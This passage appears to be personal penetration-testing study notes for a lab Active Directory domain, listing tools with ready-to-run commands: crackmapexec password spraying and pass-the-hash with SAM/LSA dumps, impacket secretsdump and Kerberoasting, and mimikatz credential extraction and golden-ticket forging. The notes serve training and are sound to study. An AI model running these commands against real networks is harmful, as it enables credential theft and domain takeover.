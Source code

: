     ```

- [bloodhound](https://github.com/BloodHoundAD/BloodHound) - easily identify highly complex attack paths
- crackmapexec - can take passwords or hashes that we found and check them against all computers on a network

    ```powershell
    crackmapexec 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
    #Spray the network with local login credentials then dump SAM contents
    crackmapexec smb 10.0.0.1/24 -u administrator -p 'password' --local-auth --sam
    #Pass the hash network-wide, local login, dump LSA contents
    crackmapexec smb 10.0.0.1/24 -u administrator -H <hash> --local-auth --lsa

    ```

- [secretsdump.py](http://secretsdump.py) (impacket) - dumps hashes for known user/password

    ```powershell
    secretsdump.py marvel/fcastle:Pssword1@192.168.4.4
    ```

- [incognito (meterpeter)](https://www.notion.so/incognito-meterpeter-881379ef297d4b3f8b50745428e1e8ed) - can impersonate a user
- [GetUserSPNs.py](http://getuserspns.py) (impacket)

    ```bash
    GetUserSpns.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
    ```

- [mimikatz](https://github.com/gentilkiwi/mimikatz) - can extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets

    ```bash
    mimikatz
    privilege::debug` (allow us to bypass several protections)
    sekurlsa::logonpasswords` show us all users login from reboot, we can pass the hash or crack them, we can search for `wdigest` until windows8 including windows7 the passoword stored in plain text, from windows8 microsoft turned it off, we can turn it on from mimikatz and wait for a user to login
    lsadump::sam` dumps the SAM
    lsadump::lsa /patch` dumps Local Security Authority
    lsadump::lsa /inject /name:krbtgt`
    kerberos::golden /User:Administrator(doesnt matter, can be fake) /domain:marvel.local /sid:SID /krbtgt:NTLM /id:500(your RID) /ptt(pass the ticket to our next session)`
    misc::command` (gives us command prompt with full privilege)
    ```

Privilige Escalation ([alot of resources](https://github.com/coreb1t/awesome-pentest-cheat-sheets#privilege-escalation))
------------------------------------------------------------

[Linux privilege escalation](https://jok3rsecurity.wordpress.com/linux-privilege-escalation/)

[Linux Privilege Escalation CheatSheet for OSCP - ByteFellow](https://www.bytefellow.com/linux-privilege-escalation-cheatsheet-for-oscp/)
